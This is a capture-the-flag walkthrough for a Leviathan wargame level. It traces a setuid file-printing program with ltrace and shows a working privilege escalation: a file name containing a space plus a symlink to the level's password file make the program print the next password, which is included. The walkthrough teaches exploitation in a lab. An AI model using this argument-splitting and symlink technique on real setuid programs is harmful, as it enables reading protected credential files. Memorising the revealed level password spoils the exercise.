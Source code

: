 When we run the executable with no arguments, it prints a usage message.

```bash
leviathan2@leviathan:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
```

Create a directory and a file with a space in the name all in one go

```bash
leviathan2@melinda:~$ mkdir /tmp/cp2 && touch /tmp/cp2/file\ tmp.txt
leviathan2@melinda:~$ cd /tmp/cp2
leviathan2@melinda:/tmp/cp2$ ls -la
total 7864
drwxrwxr-x 2 leviathan2 leviathan2    4096 Dec 29 21:14 .
drwxrwx-wt 1 root       root       8036352 Dec 29 21:14 ..
-rw-rw-r-- 1 leviathan2 leviathan2       0 Dec 29 21:14 file tmp.txt #file we created
```

{% highlight bash %}
leviathan2@leviathan:/tmp/cp2$ ltrace ~/printfile "file tmp.txt"
__libc_start_main(0x565556c0, 2, 0xffffd6f4, 0x565557b0 `<unfinished ...>`
access("file tmp.txt", 4)                                        = 0
snprintf("/bin/cat file tmp.txt", 511, "/bin/cat %s", "file tmp.txt") = 21
geteuid()                                                        = 12002
geteuid()                                                        = 12002
setreuid(12002, 12002)                                           = 0
system("/bin/cat file tmp.txt"/bin/cat: file: No such file or directory
/bin/cat: tmp.txt: No such file or directory
 `<no return ...>`
--- SIGCHLD (Child exited) ---
`<... system resumed>` )                                           = 256
+++ exited (status 0) +++
{% endhighlight %}

We can see that the function `access()` and /bin/cat are being called on the file. What access() does is check permissions based on the processes real user ID rather than the effective user ID.
While access does use the full file path, the cat on the file is not using the full file path. We can see this near the end of the output where /bin/cat/ is being called to tmp.txt as if it were a separate file, it’s really the second half of our filename. This can be exploited if we create a symbolic link from the password file to the file we created in /tmp.

```bash
leviathan2@leviathan:/tmp/cp2$ ln -s /etc/leviathan_pass/leviathan3 /tmp/cp2/file
leviathan2@leviathan:/tmp/cp2$ ls -la
total 20
drwxr-xr-x   2 leviathan2 leviathan2  4096 Aug 31 11:37 .
drwxrwx-wt 168 root       root       16384 Aug 31 11:31 ..
lrwxrwxrwx   1 leviathan2 leviathan2    30 Aug 31 11:37 file -> /etc/leviathan_pass/leviathan3
-rw-r--r--   1 leviathan2 leviathan2     0 Aug 31 11:31 file tmp.txt
```

```bash
leviathan2@leviathan:/tmp/cp2$ ~/printfile "file"
You cant have that file...
leviathan2@leviathan:/tmp/cp2$ ~/printfile "file tmp.txt"
Ahdiemoo1j
/bin/cat: tmp.txt: No such file or directory
```
